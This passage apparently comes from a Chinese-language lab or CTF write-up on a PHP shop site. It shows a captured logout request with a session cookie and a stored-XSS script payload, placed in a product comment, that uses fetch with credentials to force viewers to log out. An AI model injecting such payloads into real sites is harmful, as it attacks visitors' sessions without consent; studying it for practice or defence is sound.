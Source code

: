 ### 先删除原先的评论

```
这是退出的请求包

GET /logout.php HTTP/1.1
Host: 8.148.75.207:66
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://8.148.75.207:66/product_comments.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=snqvc5d4gie4rfrraknjiocbv0
Connection: keep-alive


```

有评论功能，可能是存储xss的漏洞点

构造payload

```
<script>
fetch("http://8.148.75.207:66/logout.php", {
  method: "GET",
  credentials: "include"
});
</script>
```

![image-20250901204505594](images/image-20250901204505594.png)

点进去就退出登录
